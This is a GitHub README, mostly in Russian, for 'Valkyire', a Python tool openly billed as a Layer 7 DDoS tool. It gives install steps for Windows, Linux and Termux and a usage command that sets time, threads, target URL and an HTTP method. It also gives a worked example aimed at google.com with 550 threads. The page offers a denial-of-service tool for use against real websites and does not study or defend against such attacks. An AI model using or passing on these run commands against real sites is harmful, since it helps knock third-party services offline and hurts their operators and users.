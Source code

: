 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/nordbearbotdev/Valkyire?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/nordbearbotdev/Valkyire?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/nordbearbotdev/Valkyire/main/img/" width="200" height="200">
</p>

# :computer: Главное окно
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/Valkyire/main/img/imgshow.png">
</p>

# 📥 Установка


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Установите Python 3.8 [Скачать](https://www.python.org/downloads/release/python-38)
  - Откроется установщик и нажмите на кнопку: `add python to PATH`
  - Скачайте архив Valkyire <a href="https://github.com/nordbearbotdev/Valkyire/archive/refs/heads/main.zip" target="blank">Скачать</a>
  - Откройте cmd или PowerShell с Valkyire
  - Введите команду: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/Valkyire/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/nordbearbotdev/Valkyire
cd Valkyire/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/nordbearbotdev/Valkyire
cd Valkyire/
pip3 install -r requirements.txt
```

## ❓ Как использовать?
Основная команда чтоб использовать.  

```
python3 Valkyire.py --time XXX --threads XXX --target [URL] --method HTTP
```

Пример: 

```
python3 Valkyire.py --time 5000 --threads 550 --target https://www.google.com/ --method HTTP
```
